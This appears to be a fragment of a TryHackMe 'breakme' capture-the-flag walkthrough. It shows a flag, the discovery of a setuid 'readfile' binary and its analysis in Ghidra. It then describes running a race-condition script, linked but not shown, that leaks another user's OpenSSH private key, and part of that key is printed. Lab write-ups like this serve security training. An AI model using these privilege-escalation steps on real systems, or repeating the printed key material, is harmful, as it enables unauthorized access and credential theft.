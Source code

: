 We get the first flag:
```bash
5c3ea0d312568c7ac68d213785b26677
```

Now we need to get the second flag from the second user 'youcef'
```bash
cd /home/youcef
ls -la
-rwsr-sr-x 1 youcef youcef 17176 Aug  2  2023 readfile
-rw------- 1 youcef youcef  1026 Aug  2  2023 readfile.c
```

Create server to download file:
```bash
python3 -m http.server
```

Go to on browser 10.10.145.24:8000

Download readfile

ctrl Z on youcef server

Open Ghidra and create new project breakme

Import redfile and open it

filter main and select it

search for  0x3ea which mean 1002 which is user john (so you cannot run this script if you ar e ot john)

go to john directory
```bash
cd /home/john

nano race.sh
```

paste:
https://raw.githubusercontent.com/djalilayed/tryhackme/refs/heads/main/breakme/race.sh

save it
ctrl x

```bash
chmod +x race.sh

./race.sh
```

I guess you won!
```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCGzrHvF6
Tuf+ZdUVQpV+cXAAAAEAAAAAEAAAILAAAAB3NzaC1yc2EAAAADAQABAAAB9QCwwxfZdy0Z
P5f1aOa67ZDRv6XlKz/0fASHI4XQF3pNBWpA79PPlOxDP3QZfZnIxNIeqy8NXrT23cDQdx
ZDWnKO1hlrRk1bIzQJnMSFKO9d/fcxJncGXnjgBTNq1nllLHEbf0YUZnUILVfMHszXQvfD
j2GzYQbirrQ3KfZa+m5XyzgPCgIlOLMvTr2KnUDRvmiVK8C3M7PtEl5YoUkWAdzMvUENGb
UOI9cwdg9n1CQ++g25DzhEbz8CHV/PiU+s+PFpM2chPvvkEbDRq4XgpjGJt2AgUE7iYp4x
g3S3EnOoGoezcbTLRunFoF2LHuJXIO6ZDJ+bIugNvX+uDN60U88v1r/SrksdiYM6VEd4RM
s2HNdkHfFy6o5QnbBYtcCFaIZVpBXqwkX6aLhLayteWblTr7KzXy2wdAlZR3tnvK/gXXg3
6FXABWhDDYaGkN/kjrnEg8SGT71k7HFawODRP3WMD1ssOy70vCN3SvZpKt3iMrw2PtqOka
afve2gmscIJdfP5BdXOD419eds2qrEZ0K5473oxaIMKUmAq0fUDzmT+6a4Jp/Vz3MEGcGC
VAeyNXxZqXAfdL/2Fuhi1H4KQ4qojyZLBLo2Uf8bDsCFG+u9jJ45OgiYxWeZEjf2C3N6CR
9kxRdjK6+z/nXVWdreh/RyACb10QAAByDrJL8KWNHniidTtyAU22rC0ErO2vvQyB3w3GOi
wOf/mTCo68tWxe77WcxFewTRnHJpMqayWEv96ZFnpArCaravM7nrKtu+f73scZEeLMM71u
OZQTMdiHOX0HoncVLwD0RmdAvL6JXWB0n8+supleKk0CTIDdmDFY4LarpI2cMAUctaOh71
LtGLPCKJOG8R9yyyYoteQNUdGDwkNt8wH+3qtnAHFzKyhRMPYvHw5OBa2GwIZZ6jDLF1LQ
xGvxJ7hASyvlEKosgt5+cQAvPcj+LGAcCjibUrYIm73QTF33DM9atGbbT4dtK4ZNiSj7ek
uew5G8frfuexwetRaEOD67y1YJpyLb/4tgaBGDE6L8puI8ZO4EGlMUsBIY1bd8Y6hOWZOn
```